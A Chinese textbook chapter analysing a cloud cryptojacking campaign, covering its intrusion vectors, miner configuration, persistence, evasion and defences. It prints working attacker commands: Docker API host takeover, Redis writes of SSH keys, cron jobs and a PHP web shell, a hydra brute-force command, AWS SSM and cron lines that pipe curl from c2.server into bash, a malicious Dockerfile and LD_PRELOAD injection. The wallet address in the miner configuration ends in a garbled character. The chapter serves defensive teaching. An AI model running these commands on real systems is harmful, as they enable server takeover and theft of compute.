





## 24.7 案例七：加密货币挖矿恶意软件深度分析

> **案例定位：** 本案例聚焦云环境下大规模挖矿攻击的完整生命周期——从攻击者视角的多向量入侵与容器逃逸，到防御者视角的云原生检测、应急响应与经济损害评估。与案例三（单样本逆向分析）形成互补：案例三是"显微镜下的标本解剖"，本案例是"战场态势的全局推演"。

### 24.7.1 挖矿恶意软件的技术原理与演进

#### 什么是加密劫持（Cryptojacking）

加密劫持（Cryptojacking）是指未经受害者知情或同意，利用其计算资源（CPU、GPU）进行加密货币挖矿的恶意行为。与传统恶意软件不同，挖矿恶意软件的核心目标不是数据窃取或系统破坏，而是"寄生式资源榨取"——在受害者几乎无感知的情况下，持续占用其计算能力为攻击者创造经济收益。

**为什么加密劫持成为主流攻击方式？**

| 驱动因素 | 具体原因 | 对攻击者的吸引力 |
|---------|---------|----------------|
| 低风险高回报 | 不涉及数据贩卖（法律风险低），但收益稳定 | 被执法打击的概率远低于数据贩卖 |
| 技术门槛低 | XMRig等开源矿机可直接使用，无需开发能力 | 脚本小子也能参与 |
| 收益确定性 | 只要有CPU就能产出代币，不依赖赎金谈判 | 比勒索软件的"赌运气"更稳定 |
| 隐蔽性强 | 75% CPU占用常被误认为"业务正常负载" | 平均潜伏时间超过6个月 |
| 零边际成本 | 所有计算成本由受害者承担 | 攻击者的ROI可达100:1以上 |

#### 为什么攻击者偏爱门罗币（Monero）

在所有加密货币中，门罗币（XMR）是挖矿恶意软件的绝对首选，约占恶意挖矿总量的95%以上。这并非偶然，而是由门罗币的技术特性决定的：

| 特性 | 门罗币（XMR） | 比特币（BTC） | 以太坊（ETH，已转PoS） |
|------|-------------|-------------|---------------------|
| 共识机制 | RandomX（PoW，CPU友好） | SHA-256（PoW，需ASIC） | PoS（不再需要挖矿） |
| 隐私保护 | 环签名+隐地址+RingCT | 公开透明账本 | 公开透明账本 |
| 匿名性 | 收款地址无法关联真实身份 | 链上分析可追踪 | 链上分析可追踪 |
| 矿池通信 | 支持加密Stratum协议 | 多数为明文 | 不适用 |
| ASIC抗性 | RandomX算法专为CPU优化设计 | ASIC算力主导 | 不适用 |
| 恶意挖矿适合度 | ★★★★★ | ★★☆☆☆ | ★☆☆☆☆ |

**RandomX算法的核心设计**：RandomX是门罗币2019年引入的PoW算法，其设计目标是"使ASIC和GPU相对CPU没有显著优势"。它通过随机代码执行（JIT编译随机程序）、内存硬需求（2MB+随机访问模式）和浮点运算密集，确保普通CPU也能高效参与挖矿。这恰恰给了恶意软件作者可乘之机——受害者的办公电脑、云服务器的CPU都成了"矿机"。

#### 挖矿恶意软件的演进历程



**标志性攻击事件**：

| 事件名称 | 时间 | 规模 | 特征 | 损失 |
|---------|------|------|------|------|
| Smominru | 2018-2019 | 50万+主机 | EternalBlue+挖矿，含云主机 | $340万+ |
| Lemon Duck | 2018-2022 | 全球性 | 多语言跨平台，邮件传播+Redis | 未公开 |
| TeamTNT | 2020-2022 | 数万台 | 专注Docker/K8s，多向量攻击 | 数百万美元 |
| 8220 Gang | 2022-至今 | 数万台 | 利用Oracle WebLogic/Redis | 持续活跃 |
| Kinsing | 2019-至今 | 数万台 | 容器逃逸+持久化，复杂对抗 | 持续活跃 |
| 本案例（HashReaper） | 2025 | 1,200台 | 五向量并行，云原生攻击 | $640,897 |

> **为什么攻击者不会"过时"？** 尽管门罗币价格波动，但对攻击者而言，只要门罗币还有流动性、受害者的CPU还有算力，挖矿攻击的经济模型就永远成立。即使门罗币价格下跌50%，攻击者的边际成本几乎不变（为零），所以ROI依然惊人。

### 24.7.2 案例背景与攻击全景

#### 事件概述

2025年1月，某公有云服务商的安全运营中心（SOC）在48小时内收到超过200个客户实例的CPU告警。威胁情报团队介入后确认，这是一起针对云基础设施的大规模自动化挖矿攻击（Cryptojacking Campaign），攻击者同时利用五种不同入侵途径进行"广撒网"式攻击，覆盖约1,200台云主机，形成一个算力超过500 KH/s的分布式挖矿僵尸网络。

**攻击影响量化：**

| 指标 | 数值 |
|------|------|
| 受影响实例总数 | ~1,200台 |
| 受影响客户数 | 87个独立租户 |
| 攻击持续时间 | 约14天（从首次入侵到完全遏制） |
| 受害实例平均CPU占用 | 92%（正常基线<15%） |
| 受害者额外云资源费用 | 约$340,000（按CPU超额计费） |
| 攻击者挖矿收益 | 约218 XMR（按当时币价约$36,000） |
| ROI（攻击者投资回报率） | 估计120:1（基础设施成本约$300） |

> **为什么攻击者的ROI如此之高？** 挖矿恶意软件的本质是"成本转嫁"——攻击者不需要购买硬件、支付电费，所有计算成本由受害者承担。一次自动化攻击脚本的编写成本可能只需几小时的人工，而收益取决于感染规模。本案例中攻击者以约$300的C2服务器成本撬动了$36,000的收益。

#### 攻击者画像

通过IOC关联和TTP分析，威胁情报团队将此次攻击归因为一个活跃于东欧的中等技术水平威胁组织，业界暂命名为"HashReaper"：

| 特征维度 | 分析结论 |
|---------|---------|
| 技术水平 | 中等偏上——能利用多种漏洞但不使用0day |
| 自动化程度 | 高——攻击脚本自动扫描、入侵、部署、持久化 |
| 目标选择 | 无差别——面向全网扫描，不针对特定行业 |
| 经济动机 | 纯经济驱动，未发现数据窃取或破坏行为 |
| 基础设施 | 使用被黑主机作为跳板，C2隐藏在Tor网络 |
| 更新频率 | 每2-3周更换一次矿池钱包地址和C2域名 |
| 活跃时间 | 首次观测于2024年8月，至今持续活跃 |



### 24.7.3 五种攻击向量的深度分析

本次攻击使用了五种独立的入侵途径，体现了攻击者"不把鸡蛋放在一个篮子里"的策略。每种向量独立运作，即使某一种被堵住，其他途径仍能继续感染。

#### 向量一：暴露的Docker API端口（2375/TCP）

**威胁本质：** Docker守护进程默认监听的2375端口（无TLS）和2376端口（有TLS）如果暴露在公网上，攻击者可以不经认证直接控制Docker引擎——创建容器、挂载宿主机文件系统、甚至获取宿主机root权限。这不是Docker的漏洞，而是错误配置导致的"功能即漏洞"。

> **这不是理论风险。** Shodan数据显示，全球互联网上长期存在约5,000-8,000个暴露的Docker API端口。这些实例无需任何漏洞利用，只需一条curl命令即可接管。

**攻击者利用流程：**

```bash
# 步骤1：扫描暴露的Docker API
masscan 0.0.0.0/0 -p2375 --rate=50000 -oG docker_scan.txt

# 步骤2：验证Docker API可达性
curl -s http://<target>:2375/version | jq .
# 返回Docker版本信息即确认可利用

# 步骤3：通过挂载宿主机根目录获取完整root权限
curl -X POST http://<target>:2375/containers/create \
  -H "Content-Type: application/json" \
  -d '{
    "Image": "alpine:latest",
    "Cmd": ["/bin/sh", "-c", "chroot /host bash -c \"curl http://c2.server/miner.sh | bash\""],
    "HostConfig": {
      "Binds": ["/: /host:rw"],
      "Privileged": true,
      "NetworkMode": "host",
      "PidMode": "host"
    }
  }'

# 步骤4：启动容器执行攻击载荷
curl -X POST http://<target>:2375/containers/<id>/start
```

**容器逃逸的关键原理：**



> **关键知识点：Privileged容器 vs 普通容器。** 普通容器通过Linux Namespace隔离进程、网络、文件系统，通过Cgroups限制资源。但`Privileged: true`容器绕过了几乎所有安全限制，拥有宿主机的所有Capabilities，可以直接访问宿主机设备和内核。加上`Binds: ["/: /host:rw"]`挂载宿主机根目录，容器内的攻击者等同于拥有宿主机root权限。

**Docker逃逸的四种经典路径对比：**

| 逃逸路径 | 前提条件 | 难度 | 影响 |
|---------|---------|------|------|
| API直接暴露（2375） | API监听公网+无认证 | 极低（一条curl） | 完全控制宿主机 |
| Privileged容器逃逸 | 容器以--privileged启动 | 低 | 完全控制宿主机 |
| 危险挂载逃逸 | /var/run/docker.sock挂载到容器 | 低 | 通过sock控制Docker |
| 内核漏洞逃逸 | 特定内核版本+漏洞 | 高 | 完全控制宿主机 |

**防御措施：**

```bash
# 1. 永远不要将Docker API暴露在公网
# 检查是否监听了公网地址
ss -tlnp | grep 2375
# 正确做法：只监听unix socket或127.0.0.1
cat /etc/docker/daemon.json
{
  "hosts": ["unix:///var/run/docker.sock"]
}

# 2. 如果必须远程访问，启用TLS双向认证
{
  "hosts": ["tcp://0.0.0.0:2376"],
  "tls": true,
  "tlscacert": "/etc/docker/ca.pem",
  "tlscert": "/etc/docker/server-cert.pem",
  "tlskey": "/etc/docker/server-key.pem",
  "tlsverify": true
}

# 3. 使用iptables/安全组限制来源IP
iptables -A INPUT -p tcp --dport 2375 -s <trusted_ip> -j ACCEPT
iptables -A INPUT -p tcp --dport 2375 -j DROP

# 4. 使用Docker Authorization Plugin限制API操作
# 例如：禁止Privileged容器创建、禁止HostConfig.Binds挂载敏感路径
```

#### 向量二：未修补的Web应用漏洞

攻击者利用了三种常见Web漏洞实现初始入侵：

| 漏洞类型 | 具体利用方式 | 占比 |
|---------|------------|------|
| 未授权Redis访问（端口6379） | 通过CONFIG SET写入crontab/SSH公钥 | 45% |
| Log4Shell（CVE-2021-44228） | JNDI注入加载远程恶意类 | 30% |
| Fastjson反序列化 | 构造恶意JSON触发远程代码执行 | 25% |

**Redis未授权利用的完整攻击链（最高频向量）：**

```bash
# 攻击者端的自动化脚本核心逻辑
#!/bin/bash
TARGET=$1

# 验证Redis是否无需认证
redis-cli -h $TARGET -p 6379 ping 2>/dev/null | grep -q PONG || exit 1

# 方式A：写入SSH公钥（获取持久化shell访问）
redis-cli -h $TARGET -p 6379 <<EOF
CONFIG SET dir /root/.ssh/
CONFIG SET dbfilename authorized_keys
SET sshkey "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC... attacker@box\n\n"
SAVE
EOF

# 方式B：写入crontab（更隐蔽，不需要SSH端口开放）
redis-cli -h $TARGET -p 6379 <<EOF
CONFIG SET dir /var/spool/cron/
CONFIG SET dbfilename root
SET cron "\n\n*/5 * * * * curl http://c2.server/miner.sh | bash\n\n"
SAVE
EOF

# 方式C：写入WebShell（如果目标运行Web服务）
redis-cli -h $TARGET -p 6379 <<EOF
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename shell.php
SET webshell "\n\n<?php system(\$_GET['cmd']); ?>\n\n"
SAVE
EOF
```

**Redis写文件漏洞的技术原理：**

Redis是内存数据库，支持将内存数据持久化到磁盘。`CONFIG SET dir`指定RDB文件保存目录，`CONFIG SET dbfilename`指定文件名。当Redis以root身份运行时，攻击者可以将这两个参数指向系统任意路径，配合`SET`+`SAVE`命令将任意内容写入任意文件——这是一种典型的"功能滥用"型漏洞。

> **为什么Redis未授权利用如此普遍？** 三个原因叠加：(1) Redis默认无密码，很多运维人员部署后忘记配置认证；(2) Redis默认绑定0.0.0.0（所有网络接口），而非127.0.0.1；(3) Redis的CONFIG SET+SAVE写文件能力是"设计如此"，不是漏洞，所以没有任何CVE编号，安全扫描工具往往不会标记。这三者结合，使得Redis未授权利用成为挖矿攻击的第一大入口。

> **生产环境的Redis必须配置：** `requirepass`（强密码认证）、`bind 127.0.0.1`（只监听本地）、`rename-command CONFIG ""`（禁用CONFIG命令）、`protected-mode yes`。缺少其中任何一项，都相当于向互联网敞开大门。

#### 向量三：弱密码SSH暴力破解

攻击者使用预先构建的弱密码字典对SSH服务进行暴力破解：

```bash
# 攻击者使用的工具和命令（还原自C2日志）
hydra -l root -P /usr/share/wordlists/top1000_passwords.txt \
  ssh://<target> -t 4 -f -o ssh_crack.txt

# 高频命中密码TOP 10（从1200台受害主机统计）
# 1. root:123456        (占比18%)
# 2. root:root           (占比12%)
# 3. root:password       (占比9%)
# 4. root:admin@123      (占比7%)
# 5. root:your_password       (占比6%)
# 6. root:toor           (占比5%)
# 7. ubuntu:ubuntu       (占比5%)
# 8. root:1qaz@WSX       (占比4%)
# 9. root:abc123         (占比3%)
# 10. root:qwerty        (占比3%)
```

**统计发现：** 在本次攻击中，弱密码SSH占所有成功入侵的约12%。虽然占比最低，但这些受害者往往是最容易反复感染的——因为密码不改，下次攻击换个IP就能再次入侵。

**SSH暴力破解防御的关键措施：**

```bash
# 1. 禁用密码认证，仅允许密钥登录
# /etc/ssh/sshd_config
PasswordAuthentication no
PubkeyAuthentication yes

# 2. 安装fail2ban自动封禁暴力破解IP
apt install fail2ban -y
cat > /etc/fail2ban/jail.local <<'EOF'
[sshd]
enabled = true
port = 22
filter = sshd
maxretry = 3
bantime = 3600
findtime = 600
EOF
systemctl restart fail2ban

# 3. 使用非标准端口（降低扫描命中率）
# /etc/ssh/sshd_config
Port 22222
```

#### 向量四：泄露的云服务凭据

攻击者从GitHub公开仓库、Pastebin、暗网数据库交易中获取泄露的云服务API密钥：

```text
常见的泄露凭据类型：
├── AWS Access Key ID + Secret Access Key
├── 阿里云 AccessKey ID + AccessKey Secret
├── 腾讯云 SecretId + SecretKey
├── GCP Service Account JSON Key
├── Docker Registry 认证 Token
└── Kubernetes kubeconfig 文件
```

**攻击者利用泄露凭据的典型流程：**

```bash
# 1. 使用泄露的AWS凭据枚举EC2实例
aws ec2 describe-instances --query 'Reservations[*].Instances[*].[InstanceId,PublicIpAddress,State.Name]'

# 2. 使用SSM（Systems Manager）远程执行命令（不需要SSH端口开放）
aws ssm send-command \
  --instance-ids i-xxxxxx \
  --document-name "AWS-RunShellScript" \
  --parameters 'commands=["curl http://c2.server/miner.sh | bash"]'

# 3. 或者直接创建新的恶意实例（利用受害者付费）
aws ec2 run-instances \
  --image-id ami-mining-optimized \
  --instance-type c5.4xlarge \
  --count 10 \
  --instance-initiated-shutdown-behavior terminate
```

> **为什么SSM比SSH更危险？** AWS Systems Manager (SSM) 不需要实例开放22端口，只要实例安装了SSM Agent且具有正确的IAM角色，就可以远程执行命令。很多安全团队会限制SSH访问但忘记审查SSM权限，形成安全盲区。

**凭据泄露的预防体系：**

```bash
# 1. 在CI/CD中集成密钥扫描（使用gitleaks）
# .github/workflows/secret-scan.yml
# name: Secret Scan
# on: [push, pull_request]
# jobs:
#   scan:
#     runs-on: ubuntu-latest
#     steps:
#       - uses: actions/checkout@v4
#         with:
#           fetch-depth: 0
#       - uses: gitleaks/gitleaks-action@v2

# 2. 使用AWS IAM Access Analyzer检测过度权限的密钥
aws iam generate-credentials-report

# 3. 启用AWS CloudTrail监控异常API调用
# 重点关注：ConsoleLogin（非常用IP）、RunInstances（新区域）
```

#### 向量五：供应链攻击（恶意容器镜像）

攻击者在Docker Hub上发布了多个伪装成合法工具的恶意镜像：

| 恶意镜像名 | 伪装目标 | 下载量 | 内置恶意行为 |
|-----------|---------|--------|------------|
| `alpine-utils:latest` | Alpine Linux工具集 | 12,000+ | 内置XMRig矿机，启动时自动运行 |
| `redis-optimized:7.0` | 优化版Redis | 3,500+ | Redis正常运行，同时后台挖矿 |
| `nginx-waf:latest` | Nginx+WAF | 2,800+ | Web服务正常，利用空闲CPU挖矿 |
| `ubuntu-dev:22.04` | 开发环境 | 8,000+ | 正常开发工具+隐藏挖矿后门 |

**恶意镜像的技术实现：**

```dockerfile
# 攻击者构建恶意镜像的Dockerfile（还原）
FROM alpine:3.18

# 安装正常工具作为伪装
RUN apk add --no-cache curl wget vim htop net-tools

# 下载挖矿程序并隐藏
ADD http://c2.server/xmrig-static /usr/local/bin/.system-helper
RUN chmod +x /usr/local/bin/.system-helper && \
    touch -r /usr/local/bin/ls /usr/local/bin/.system-helper  # 修改时间戳伪装

# 创建启动脚本，在后台启动挖矿
RUN echo '#!/bin/sh' > /usr/local/bin/entrypoint.sh && \
    echo '/usr/local/bin/.system-helper -c /etc/.config.json &' >> /usr/local/bin/entrypoint.sh && \
    echo 'exec "$@"' >> /usr/local/bin/entrypoint.sh && \
    chmod +x /usr/local/bin/entrypoint.sh

# 限制CPU使用率避免被发现（75%而非100%）
# 攻击者学会了"低调行事"
ENTRYPOINT ["/usr/local/bin/entrypoint.sh"]
CMD ["/bin/sh"]
```

> **供应链攻击的隐蔽性极强。** 与直接入侵不同，受害者是"主动"拉取并运行恶意镜像的。攻击者还会持续维护这些镜像（定期更新基础镜像版本、回复用户问题），使其看起来像正常的开源项目。

**供应链防御措施：**

```bash
# 1. 启用Docker Content Trust（镜像签名验证）
export DOCKER_CONTENT_TRUST=1
docker pull library/alpine:3.18  # 只拉取签名过的官方镜像

# 2. 使用私有仓库替代Docker Hub
# 将镜像托管在私有Harbor/Nexus中，只允许从内部仓库拉取

# 3. 镜像安全扫描（Trivy）
trivy image alpine:3.18
trivy image --severity HIGH,CRITICAL alpine:3.18

# 4. 验证镜像的构建历史和来源
docker inspect --format '{{.Created}} {{.Author}}' <image>
docker history <image>
```

### 24.7.4 挖矿程序行为分析

#### 矿机配置与挖矿策略

本次攻击中发现的矿机配置体现了攻击者对隐蔽性的精心设计：

```json
{
    "algo": "rx/0",
    "pools": [
        {
            "url": "pool.minexmr.com:4444",
            "user": "48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRgGhK8j4bp4f蓏",
            "pass": "worker_{hostname}",
            "keepalive": true,
            "tls": false
        },
        {
            "url": "xmr-eu1.nanopool.org:14444",
            "user": "48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRgGhK8j4bp4f蓏",
            "pass": "worker_{hostname}",
            "keepalive": true,
            "tls": true
        }
    ],
    "cpu": {
        "max-threads-hint": 75,
        "priority": 2,
        "yield": true
    },
    "donate-level": 0,
    "print-time": 60,
    "health-print-time": 60,
    "syslog": false,
    "verbose": 0
}
```

**配置参数的安全含义解析：**

| 参数 | 值 | 攻击者意图 |
|------|-----|----------|
| `max-threads-hint: 75` | 使用75%的CPU核心 | 而非100%——留25%给正常业务，降低被发现概率 |
| `priority: 2` | 低优先级（nice值） | 让挖矿进程被正常业务进程抢占CPU，减少性能波动 |
| `yield: true` | 每次哈希后主动让出CPU | 进一步降低CPU占用的"尖峰"，使负载曲线更平滑 |
| `donate-level: 0` | 关闭对XMRig开发者的捐赠 | 攻击者"一毛不拔"，不想给任何人分钱 |
| `verbose: 0` | 禁用详细日志 | 减少日志文件中的可疑信息 |
| `syslog: false` | 禁用系统日志 | 避免在/var/log中留下痕迹 |
| `pass: worker_{hostname}` | 密码字段含主机名 | 便于攻击者在矿池后台区分不同受害主机 |

> **从100%到75%的进化。** 早期挖矿恶意软件倾向于100%占用CPU，容易触发告警。现代挖矿恶意软件普遍采用"温和挖矿"策略——限制CPU使用率、降低进程优先级、在业务高峰期暂停。这种"APT级"的耐心策略使得很多受害者的CPU使用率长期维持在70-80%，被误以为是"业务增长导致的正常负载"。

#### 持久化机制深度分析

本次攻击中发现的持久化手段比案例三更加复杂和隐蔽：

**机制一：多层Crontab**

```bash
# 主定时任务（每3分钟检查一次矿机状态）
*/3 * * * * /tmp/.X11-unix/.rsync -c /tmp/.cfg >/dev/null 2>&1

# 备份定时任务（每10分钟，如果矿机被杀则重新下载部署）
*/10 * * * * curl -s http://c2.server/miner.sh | bash >/dev/null 2>&1

# 深度隐藏的系统级定时任务（存放在非标准路径）
cat /var/spool/cron/crontabs/root  # 注意：这个路径在某些发行版中不会被crontab -l显示
```

**机制二：Systemd服务自启动**

```ini
# 伪装成合法系统服务
# /etc/systemd/system/systemd-networkd-sync.service
[Unit]
Description=Network Synchronization Service
After=network.target
Wants=network-online.target

[Service]
Type=simple
ExecStartPre=/bin/sleep 30                    # 延迟30秒启动，避开启动阶段的监控
ExecStart=/usr/lib/systemd/systemd-helper
Restart=always
RestartSec=120                                # 被杀后2分钟重启
WatchdogSec=3600                              # 1小时无活动则重启（防僵死）
Nice=19                                       # 最低优先级
IOSchedulingClass=idle

[Install]
WantedBy=multi-user.target
```

**机制三：进程注入与伪装**

```bash
# 攻击者将挖矿代码注入到合法进程中
# 方法1：LD_PRELOAD注入
echo "/tmp/.X11-unix/.libsystem.so" > /etc/ld.so.preload

# 方法2：修改合法进程的内存（通过/proc/<pid>/mem）
# 这种方式不需要修改磁盘文件，纯内存操作，重启后消失
# 但配合crontab可以实现"重启后重新注入"

# 进程名伪装方式
mv /tmp/.X11-unix/.rsync /usr/bin/kworker/0:1    # 伪装成内核工作线程
# 或在启动时修改argv[0]
# 使ps aux显示为[kworker/0:1-events]而非真实进程名
```

**机制四：SSH后门**

```bash
# 植入SSH公钥（最直接的持久化方式）
mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC... attacker" >> /root/.ssh/authorized_keys

# 额外设置：修改SSH配置允许密钥登录
sed -i 's/#PubkeyAuthentication yes/PubkeyAuthentication yes/' /etc/ssh/sshd_config
sed -i 's/PasswordAuthentication yes/PasswordAuthentication no/' /etc/ssh/sshd_config
# 攻击者关闭密码认证，只保留自己的公钥——受害者即使改密码也无法阻止攻击者登录
```

#### 反检测与对抗技术

攻击者在本次攻击中部署了多种反检测手段：

| 反检测技术 | 实现方式 | 绕过原理 |
|-----------|---------|---------|
| CPU限制 | max-threads-hint: 75 | 避免CPU 100%告警 |
| 进程名伪装 | 修改argv[0]为kworker/systemd | 混淆在大量系统进程中 |
| 文件隐藏 | 存放在/tmp/.X11-unix/等隐藏目录 | 利用管理员对隐藏目录检查不全面 |
| 时间戳伪造 | touch -r <合法文件> <恶意文件> | find -mtime无法发现 |
| 日志清除 | syslog: false + 清除auth.log | 留在系统日志中的入侵痕迹被销毁 |
| 网络流量伪装 | TLS加密矿池通信 | IDS无法解密检测Stratum协议 |
| Kill竞争对手 | pkill其他矿机进程 | 独占受害主机算力 |
| 定期更新 | 通过C2自动更新矿机二进制 | 绕过基于哈希的检测规则 |

```bash
# 攻击者的"Kill竞争对手"脚本（从C2服务器还原）
#!/bin/bash
# 杀死其他挖矿进程
pkill -f "xmrig\|minerd\|cpuminer\|kthreaddi\|kworkerds"
pkill -f "pool\.\|stratum\|cryptonight\|randomx"
# 删除其他矿机的文件
rm -f /tmp/.X11-unix/.* 2>/dev/null
rm -f /var/tmp/.*  2>/dev/null
rm -f /dev/shm/.*  2>/dev/null
# 清除其他矿机的定时任务（保留自己的）
crontab -r 2>/dev/null
# 重新写入自己的定时任务
echo "*/3 * * * * curl -s http://c2.server/miner.sh | bash" | crontab -
```

